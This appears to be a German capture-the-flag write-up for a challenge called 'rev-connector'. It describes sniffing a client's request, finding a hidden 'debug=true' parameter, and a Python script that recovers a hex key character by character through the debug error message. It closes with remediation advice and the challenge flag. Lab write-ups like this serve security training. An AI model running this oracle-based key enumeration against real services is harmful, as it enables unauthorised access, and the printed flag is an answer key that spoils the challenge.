


# rev-connector

## Aufgabe
Es soll sich mittels des Client Tools `dbh_connector.exe` mit einem Server verbunden werden. Hierfür wird ein gültiger Schlüssel benötigt.

### Gegeben

Ein Programm `dbh_connector.exe` mit welchem die Verbindung zum Server hergestellt werden kann. Außerdem wurde die IP Adresse und der Port zur Webanwendung angegeben.


### Lösungsvorschlag

Wird das Programm gestartet, gibt dieses folgende Meldung aus:



Es müssen verschiedene Parameter (IP, Port, Key) für den Verbindungsaufbau angegeben werden. Wird die IP, der Port und ein zufälliger Key ("fi7") angegeben so erscheint die Ausgabe "**Result: Wrong key!**".

Bei Mitschneiden des Datenverkehrs kann folgender GET Request ermittelt werden:
```
http://localhost:80/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&key=fi7
```

Nun kann begonnen werden, den Hashwert per Bruteforce Angriff zu knacken. Dies kann jedoch - wenn es schlecht läuft - mehrere Jahre dauern. Dementsprechend wird die Datei vorerst mittels eines Decompilers inspiziert. 

Die Zeichenketten in der Anwendung sind nicht obfuskiert. Entsprechend sieht man zum Beispiel `Specify the destination port`:


Weiter unten in der Ausgabe kann eine `/index.php` erkannt werden, welche bereits im GET Request ermittelt werden konnte. Unter Anderem sind zwei Zeilen mit einer ID zu erkennen. Es fällt auf, dass bei einer ID der Parameter "debug=true" gesetzt ist. Die URL wird nun erneut mit dem Parameter "&debug=true" aufgerufen.

```
http://localhost:80/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&key=fi7&debug=true
```
Der Aufruf ergibt folgende Ausgabe:
```
Wrong char at position 0
```
Durch Ausprobieren kann ermittelt werden, dass es sich bei dem Passwort um einen Hex Wert handeln sollte und die Fehlermeldung sich verändert, sobald das erste Zeichen richtig erraten wurde.
```
Wrong char at position 1
```

Nun kann beispielsweise in Python ein Tool geschrieben werden, welches den Key ermittelt:
```Python
import requests

#initialisieren der Variablen
ip = "localhost"
port = "80"
key = ""
hex_values = "0123456789abcdef"

#Für die Länge des Schlüssels, versuchen wir es mit der Länge der ID
for y in range(0,32):
    #Jeden einzelnen Hex Wert ausprobieren
    for x in hex_values:
        #URL mit dem Schlüssel aufrufen
        r =requests.get("http://" + ip + ":"+ port + "/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&debug=true&key=" + key + x)
        #Die Zahl (position) abfragen
        tmp = r.text[-2:]
        if(tmp[0] == " "):
            tmp = tmp[1]
        
        #Wenn sich die Zahl geändert hat, ist die Stelle richtig. Und wir nehmen an, dass wir die Flag zurück geliefert bekommen, sobald der Key richtig ist. Also beenden wir es auch, sobald das letzte Zeichen der Flag kommt    
        if(tmp == str(y + 1) or tmp[-1:] == "}"):
            key = key + x
            break
            
#Gibt die Flag aus
print(requests.get("http://" + ip + ":"+ port + "/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&debug=true&key=" + key).text)
```



## Beseitigung der Schwachstelle
Zum einen erfolgt die Kommunikation unverschlüsselt per "http". Zum anderen ist ein unsicherer Debug Modus im Programm vorhanden.

Die Kommunikation sollte mittels TLS verschlüsselt und mit Zertifikaten abgesichert werden.

Des Weiteren darf ein Debug Modus von nicht-vertrauenswürdigen Quellen niemals erreichbar sein. Dies bietet Angreifer wichtige Informationen. Bei Systemen, welche sich außerhalb einer Test- oder Entwicklungsumgebung befinden, sollten jegliche Debug Dienste entfernt werden.


## Flagge
```
DBH{cfa7e2d1-f588-47c0-adfc-7339ac29cbb1}
```